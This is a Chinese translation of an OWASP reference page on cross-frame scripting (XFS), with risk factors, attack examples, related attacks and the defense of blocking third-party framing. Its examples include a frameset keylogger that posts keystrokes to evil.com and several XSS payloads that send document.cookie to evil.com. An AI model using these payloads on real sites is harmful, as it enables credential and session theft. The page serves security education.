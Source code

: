 [TOC]

翻译自[Cross Frame Scripting](https://www.owasp.org/index.php/Cross_Frame_Scripting "Cross Frame Scripting")

# 漏洞描述
跨框架脚本（XFS）是一种将恶意JavaScript与加载合法界面的iframe结合的攻击，旨在从不知情的用户窃取数据。。这种攻击只有与社会工程学才会成功。一个示例，攻击者诱导用户访问攻击者控制的网页。攻击者网页随后加载恶意JavaScript和一个指向合法页面HTML iframe。一旦用户在iframe内的合法网站输入了凭据，恶意JavaScript将窃取之。

# 风险因素
标准浏览器安全模型允许来自一个网页的JavaScript访问其他页面的内容，这些页面在不同的浏览器窗口或框架中加载，只要这些其他页面已从相同来源的服务器或域加载。它不允许访问已在其他域或服务器加载的页面。（参见MSDN的文章 [About Cross-Frame Scripting and Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx "About Cross-Frame Scripting and Security")）。但是，特定浏览器中存在此安全模型中的特定错误，允许攻击者访问从不同服务器或域加载的页面中的一些数据。其中最为知名的影响IE的漏洞，该漏洞使IE浏览器跨HTML框架集泄漏键盘事件（请参阅iDefense Labs咨询[Microsoft Internet Explorer跨框架脚本限制绕过](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77 "Microsoft Internet Explorer跨框架脚本限制绕过")）。例如，此漏洞可能允许攻击者窃取浏览器用户的登录凭据，因为他或她尝试将其输入到第三方网页的登录表单中。

# 攻击示例

## XFS针对IE的攻击
为了利用跨框架泄漏键盘事件的IE漏洞，攻击者可能在攻击者控制的evil.com上创建一个网页，并在恶意网页上包含一个可见框架，显示example.com的登录页面。攻击者可以隐藏框架的边框并将框架展开以覆盖整个页面，从而使浏览器用户看起来像他或她实际上正在访问example.com。攻击者在主恶意网页上注册一些javascript，该页面侦听用于页面上的所有关键事件。通常情况下，这个监听器只会收到来自主恶意网页的事件的通知 - 但是由于浏览器的错误，这个监听器也会被通知来自框架化的example.com页面的事件。因此，在尝试登录example.com时，浏览器用户在example.com框架中按下的每个按键都可以被攻击者捕获，并报告给evil.com：

```http
<!-- http://evil.com/example.com-login.html -->
<head>
<script>
// 用户按键阵列
var keystrokes = [];
// 捕获用户击键的事件监听器
document.onkeypress = function() {
    keystrokes.push(window.event.keyCode);
}
// 函数每秒钟都会将击键报告给evil.com
setInterval(function() {
    if (keystrokes.length) {
        var xhr = newXHR();
        xhr.open("POST", "http://evil.com/k");
        xhr.send(keystrokes.join("+"));
    }
    keystrokes = [];
}, 1000);
// 函数创建一个ajax请求对象
function newXHR() {
    if (window.XMLHttpRequest)
        return new XMLHttpRequest();
    return new ActiveXObject("MSXML2.XMLHTTP.3.0");
}
</script>
</head>
<!-- 重新聚焦到这个框架使浏览器陷入泄漏事件 -->
<frameset onload="this.focus()" onblur="this.focus()">
<!-- 嵌入example.com登录页面的框架 -->
<frame src="http://example.com/login.html">
</frameset>
```

## 使用框架的XSS攻击
要在example.com的第三方网页上利用跨站点脚本漏洞，攻击者可以在evil.com上创建一个攻击者控制的网页，并在evil.com页面中包含一个隐藏的iframe。这个iframe加载有漏洞的的example.com页面，并通过XSS漏洞向其中注入一些脚本。在此示例中，example.com从页面内容的页面URL中打印“q”查询参数的值，而不会转义该值。这允许攻击者在example.com页面中注入一些JavaScript代码，窃取浏览器用户的example.com的cookie，并通过一个虚假图像请求将cookie发送给evil.com（iframe的src URL为了易读性被包裹）:

```JavaScript
<iframe style="position:absolute;top:-9999px" src="http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>
```
iframe隐藏在屏幕外，因此浏览器用户不知道他或她只是“访问”了example.com页面。然而，这种攻击实际上与传统的XSS攻击相同，因为攻击者可以使用各种方法将用户直接重定向到example.com页面，包括像这样的meta元素（同样，meta元素的URL为了易读性被包裹）：

```JavaScript
<meta http-eqiv="refresh" content="1;url=http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>">
```

唯一的区别是iframe隐藏在屏幕外--因此浏览器用户不知道他或她只是“访问”了example.com页面。当使用重定向直接导航到example.com时，浏览器将在浏览器的地址栏中显示example.com url，并在浏览器窗口中显示example.com页面，以便浏览器用户知道他或她访问的是example.com。

## 另一个使用框架的XSS攻击
要利用与example.com相同的跨站点脚本漏洞（在页面内容中从页面URL中输出“q”查询参数的值而不会转义该值），攻击者可以在evil.com上创建一个网页 ，由攻击者控制，其中包括类似以下的链接，并诱使用户点击链接。此链接通过利用带有“q”查询参数的XSS漏洞将iframe注入example.com页面; 该iframe运行一些JavaScript来窃取浏览器用户在example.com的cookie，并通过一个虚假图像请求将它发送给evil.com（该URL为了易读性被包裹）：

```JavaScript
http://example.com/flawed-page.html?=<iframe src="↵
    javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>
```

同样，这种攻击实际上与传统的XSS攻击相同; 攻击者只是使用注入的iframe元素的src属性作为载体在被攻击的页面中运行一些javascript代码。

# 相关的威胁代理

- XFS攻击通常由恶意攻击者执行 [类别：Internet攻击者](https://www.owasp.org/index.php?title=Category:Internet_attacker&action=edit&redlink=1 "Category:Internet attacker")
- 利用跨框架泄漏事件的浏览器错误的XFS攻击类似于使用传统密钥记录软件的攻击。

# 相关攻击类型

- 攻击者可能使用隐藏frame来执行[跨站点脚本攻击（XSS）](https://tinytracer.com/archives/owasp%e4%b8%aa%e4%ba%ba%e6%b1%89%e5%8c%96%e6%94%bb%e5%87%bb%e7%b3%bb%e5%88%97%e5%a4%a7%e5%85%a8%ef%bc%9a%e8%b7%a8%e7%ab%99%e7%82%b9%e8%84%9a%e6%9c%ac%ef%bc%88xss%ef%bc%89/ "跨站点脚本攻击（XSS）")。
- 攻击者可能使用隐藏frame来执行[跨站点请求伪造（CSRF）攻击](https://tinytracer.com/archives/%ef%bc%88owasp%e4%b8%aa%e4%ba%ba%e6%b1%89%e5%8c%96%ef%bc%89%e6%94%bb%e5%87%bb%e7%b3%bb%e5%88%97%e5%a4%a7%e5%85%a8%ef%bc%9a%e8%b7%a8%e7%ab%99%e8%af%b7%e6%b1%82%e4%bc%aa%e9%80%a0%ef%bc%88csrf%ef%bc%89/ "跨站点请求伪造（CSRF）攻击")
- 攻击者可能会使用可见frame来执行[点击劫持](https://tinytracer.com/archives/%ef%bc%88owasp%e4%b8%aa%e4%ba%ba%e6%b1%89%e5%8c%96%ef%bc%89%e6%94%bb%e5%87%bb%e7%b3%bb%e5%88%97%e5%a4%a7%e5%85%a8%ef%bc%9a%e8%b7%a8%e7%ab%99%e8%af%b7%e6%b1%82%e4%bc%aa%e9%80%a0%ef%bc%88csrf%ef%bc%89/ "点击劫持")攻击。
- 利用浏览器漏洞跨浏览器事件的XFS攻击是一种[网络钓鱼](https://www.owasp.org/index.php/Phishing "网络钓鱼")攻击形式（攻击者诱使用户在包含合法第三方页面的框架中输入敏感信息）。

# 相关的漏洞

- XFS攻击利用了特定的浏览器漏洞

# 相关防御措施

- XFS攻击可以被禁止第三方网页框架化来防止；用于执行此操作的技术与用于Java EE的[Clickjacking Protection](https://www.owasp.org/index.php/Clickjacking_Protection_for_Java_EE "Clickjacking Protection")的技术相同。

# 参考

- MSDN文章 [About Cross-Frame Scripting and Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx "About Cross-Frame Scripting and Security")
- iDefense实验室咨询 [Microsoft Internet Explorer Cross Frame Scripting Restriction Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77 "Microsoft Internet Explorer Cross Frame Scripting Restriction Bypass")